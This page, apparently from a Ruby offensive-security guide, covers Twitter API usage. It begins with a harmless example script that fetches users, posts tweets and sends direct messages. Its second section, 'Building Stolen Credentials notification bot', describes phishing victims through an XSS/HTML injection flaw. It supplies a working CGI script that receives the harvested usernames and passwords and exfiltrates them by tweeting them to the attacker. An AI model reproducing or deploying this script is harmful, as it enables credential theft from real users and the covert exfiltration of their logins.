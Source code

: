 # Twitter API

Dealing with Twitter's API is really useful for information gathering, taxonomy and social engineering. However, you have to have some keys and tokens in-order to interact with Twitter's APIs. To do so, please refer to the official [Twitter development page](https://dev.twitter.com/oauth/overview).

*   Install Twitter API gem

    ```
    gem install twitter
    ```

## Basic Usage

**rubyfu-tweet.rb**

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'twitter'
require 'pp'

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end

puts client.user("Rubyfu")                   # Fetch a user
puts client.update("@Rubyfu w00t! #Rubyfu")  # Tweet (as the authenticated user)
puts client.follow("Rubyfu")                 # Follow User (as the authenticated user)
puts client.followers("Rubyfu")              # Fetch followers of a user
puts client.followers                        # Fetch followers of current user
puts client.status(649235138585366528)       # Fetch a particular Tweet by ID
puts client.create_direct_message("Rubyfu", "Hi, I'm KINGSABRI")    # Send direct message to a particular user
```

![](<../../../.gitbook/assets/webfu\_\_twitterAPI1 (6) (1) (6).png>)

**Your turn**, tweet to @Rubyfu using above example. Tweet your code and output to **@Rubyfu**.

## Building Stolen Credentials notification bot

We're exploiting an XSS/HTML injection vulnerability and tricking users to enter there Username and Password. The idea is, We'll make a [CGI script](http://rubyfu.net/content/module\_0x4\_\_web\_kung\_fu/index.html#cgi) that takes that stolen credentials then tweet these credentials to us as notification or log system

```ruby
#!/usr/bin/ruby -w

require 'cgi'
require 'uri'
require 'twitter'

cgi  = CGI.new
puts cgi.header

user = CGI.escape cgi['user']
pass = CGI.escape cgi['pass']
time = Time.now.strftime("%D %T")

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end
client.user("KINGSABRI")

if cgi.referer.nil? or cgi.referer.empty?
    # Twitter notification | WARNING! It's tweets, make sure your account is protected!!!
    client.update("[Info] No Referer!\n" + "#{CGI.unescape user}:#{CGI.unescape pass}")
else
    client.update("[Info] #{cgi.referer}\n #{CGI.unescape user}:#{CGI.unescape pass}")
end

puts ""
```
